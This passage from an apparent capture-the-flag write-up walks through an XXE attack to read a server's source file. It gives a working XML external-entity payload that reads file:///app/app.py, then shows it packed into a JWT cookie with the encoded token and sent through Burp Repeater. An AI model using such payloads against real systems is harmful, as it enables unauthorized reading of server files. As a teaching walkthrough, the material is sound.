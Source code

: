 Of course, this doesn't help us.

The experienced contestant will piece together the following facts:

- we are trying to read /app/app.py from the server
- we have the ability to send XML of our choosing to the server and PART of that XML content is echoed back to us

and reasonably consider the following:

- XXE (XML External Entity) attack
- SSTI (Server Side Template Injection)

There are lots of resources online to learn more about these attacks.

If you try SSTI, you will see it does not help.

If you try XXE, here is one resource:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

You might try XML like the following:

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///app/app.py">
]>
<data><username>&file;</username></data>
```

If we make this all one line and deal with quoting escaping, here is what a jwt.io PAYLOAD might look like:

```
{
  "data": "<?xml version=\"1.0\"?><!DOCTYPE data [<!ENTITY file SYSTEM \"file:///app/app.py\">]><data><username>&file;</username></data>"
}
```

This produces a JWT like:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjoiPD94bWwgdmVyc2lvbj1cIjEuMFwiPz48IURPQ1RZUEUgZGF0YSBbPCFFTlRJVFkgZmlsZSBTWVNURU0gXCJmaWxlOi8vL2FwcC9hcHAucHlcIj5dPjxkYXRhPjx1c2VybmFtZT4mZmlsZTs8L3VzZXJuYW1lPjwvZGF0YT4ifQ.A_oxB1nuypCU7nDlHWjlfiBme9Aqvq7kSzsi91cSZFk
```

If we try this as our cookie value we get this: (here I'm using Burp's Repeater functionality)

![image-20240317155705413](./assets/image-20240317155705413.png)

